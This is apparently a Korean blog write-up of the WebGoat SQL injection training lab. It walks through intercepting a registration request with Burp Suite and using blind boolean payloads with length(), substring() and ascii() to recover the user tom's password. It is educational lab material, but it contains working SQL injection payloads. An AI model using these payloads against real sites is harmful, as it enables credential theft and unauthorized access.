









# SQL Injection (Advanced2)

We now explained the basic steps involved in an SQL injection. In this assignment you will need to combine all things we explained in the SQL lessons.

## Goal: **Can you login as Tom?**

Have fun!

### HTTP Packet Interception



어쩌라는 것이냐. 하고 아무거나 뚜들겼을 땐 아무 반응이 없었다.

**그렇다. 로그인은 따로 쿼리가 없는 것이다.**



그래서 가입을 했다. 이제부터 페이로드를 보기 위해 버프스위트를 켜야한다.

Proxy에서 Intercept is on 하구 레지스터 버튼을 누르면 버프스위트가 요청과 응답을 가로채 보여준다.

얘가 요청



얘가 응답



저 응답을 보면, 지금 내가 `test`라는 아이디를 사용해도 된다는 응답이 왔다. 그렇다면 username_reg가 이미 있는지 없는지 **중복조회**하는 SELECT 문장이 쓰이는 것을 알 수 있다. 우리는 이걸 이용해서 injection을 도전한다^__^

그러면 여기서 쓰이는 **SELECT 문은 어떻게 생겼을까** 이걸 고민해야한다.

- url로 가는 파라미터 변수 이름 잘 보기

  : 호오.. password는 이름이 `password`인가봐~~~ >_<

- 그냥 내 아이디로 가입해보기 (`aoieuo`)

  : **중복이 아닐 때** 어떻게 나오는지 확인해본거임.

  

- **싱글쿼터** 써보기: 닫혀있는지 아닌지 확인

  

- **파이프** 써보기: Concatenation 가능 여부, 필터링되는지 확인해보기

  

- `user_name='tom'` 써보기: 그냥.

  

```sql
SELECT * FROM member WHERE username=''
```

우리는

```sql
SELECT * FROM member WHERE username='tom' and length(password)>0--
```

첫번째 FROM 절 실행, WHERE 절 실행: `username='tom'`이 참이되는 값들만 가져온다. `and` 연산자를 써야 tom의 password가 조회된다.

그리고 조회됐을 때 `true`가 되면 `User ~ already exitsts...`가 나오는 것이다. 우리는 비밀번호에 대한 조건들을 쿼리에 넣어가면서 참/거짓을 통해 비밀번호를 알아낼 수 있는 것이다: `Blind Injection`

### 길이 알아내기: length( *문자열* )

`length(password)>[길이]` 우리는 길이를 계속 바꿔가면서 결과를 보고 길이를 알아낼 수 있다.

이렇게 오면 `참 true`!!

```http
HTTP/1.1 200 OK
Connection: close
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
Content-Type: application/json
Date: Sun, 04 Oct 2020 13:43:53 GMT

{
  "lessonCompleted" : true,
  "feedback" : "User {0} already exists please try to register with a different username.",
  "output" : null,
  "assignment" : "SqlInjectionChallenge",
  "attemptWasMade" : true
}

```

이렇게 오면 조회가 안되는거여.

```http
HTTP/1.1 200 OK
Connection: close
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
Content-Type: application/json
Date: Sun, 04 Oct 2020 13:44:52 GMT

{
  "lessonCompleted" : true,
  "feedback" : "User tom' and length(password)>40-- created, please proceed to the login page.",
  "output" : null,
  "assignment" : "SqlInjectionChallenge",
  "attemptWasMade" : true
}
```

아무튼. 그래서 요리조리 해가면서 찾으면 결국엔 password 길이가 `23`인 것을 알게 된다!

자 그리고 패스워드의 길이가 23이라는거는 `23bytes`라는 것이다^_^ 23글자욥~

### 비밀번호 한 글자씩 알아내기: substring( *문자열, 시작위치, 크기* ) & ascii( *문자열* )

~~Ha... 내가 진짜.... 그냥 자동화하면 안되냐구요....~~

substring()은 문자열을 반환, 그리고 ascii()는 아스키코드 `32 ~ 126 `를 반환한다. 그래서 우린 이 두 함수를 이용해서 비번 23글자를 한 글자 한 글자 정성껏 이진검색을 한다........ 이진검색을 아는 것에 감사합니다..

```
tom'+and+substring(password,1,1)='a'-- //이건 순차탐색
```

```url
tom'+and+ascii(substring(password,1,1))>80-- //이진탐색! 대충 80부터 시작하면 된다.
```

이거 다 해서 알아낸 비번은

`thisisasecretfortomonly`

...ㅋ 그래서 이걸로 로그인을 하면



와앙~~~ 컴쁠릿

